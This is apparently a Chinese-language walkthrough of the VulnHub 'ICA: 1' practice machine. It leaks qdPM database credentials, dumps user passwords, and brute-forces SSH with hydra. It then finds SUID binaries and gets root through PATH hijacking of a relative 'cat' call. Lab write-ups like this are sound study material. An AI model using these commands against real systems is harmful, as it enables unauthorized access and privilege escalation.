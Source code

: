 [https://www.vulnhub.com/entry/ica-1,748/](https://www.vulnhub.com/entry/ica-1,748/)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201181714892.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201181717900.png)

---

`qdPM 9.2`版本存在数据泄露[https://www.exploit-db.com/exploits/50176](https://www.exploit-db.com/exploits/50176)

[http://192.168.56.102/core/config/databases.yml](http://192.168.56.102/core/config/databases.yml)

```
all:
  doctrine:
    class: sfDoctrineDatabase
    param:
      dsn: 'mysql:dbname=qdpm;host=localhost'
      profiler: false
      username: qdpmadmin
      password: "<?php echo urlencode('UcVQCMQk2STVeS6J') ; ?>"
      attributes:
        quote_identifier: true  
```

利用`qdpmadmin:UcVQCMQk2STVeS6J`成功连接数据库

在`qdpm.configuration`读到了`app_administrator_password`为`$P$EoZHz4EZ.RP1WLAVp6VUSGxVREXRAA1`想进行覆盖操作,但是不知道这玩意怎么加密的...

在`staff.user`和`staff.login`中读到了5个用户名和base64后的密码

```
Smith suRJAdGwLp8dy3rF
Lucas 7ZwV4qtg42cmUXGX
Travis X7MQkP3W29fewHdC
Dexter DJceVy98W28Y7wLg
Meyer cqNnBWCByS2DuJSy
```

试了登录qdpn全都无法登录,尝试连接ssh(看了眼wp,发现用户名是小写...)

`hydra -L ./user.txt -P ./passwd.txt 192.168.56.102 ssh`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201181749157.png)

```
travis@debian:/home/travis$ find / -user root -perm -4000 -print 2>/dev/null
/opt/get_access
/usr/bin/chfn
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/su
/usr/bin/mount
/usr/bin/chsh
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

注意`/opt/get_access`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201181759244.png)

```cpp
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setuid(0);
  setgid(0);
  system("cat /root/system.info");
  if ( socket(2, 1, 0) == -1 )
    puts("Could not create socket to access to the system.");
  else
    puts("All services are disabled. Accessing to the system is allowed only within working hours.\n");
  return 0;
}
```

`cat`是相对路径下的,把环境变量中的`PATH`修改到`/tmp`目录并且在`/tmp`下新建个`cat`的`/bin/bash`就ok了

`export PATH=/tmp:$PATH`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201181804188.png)
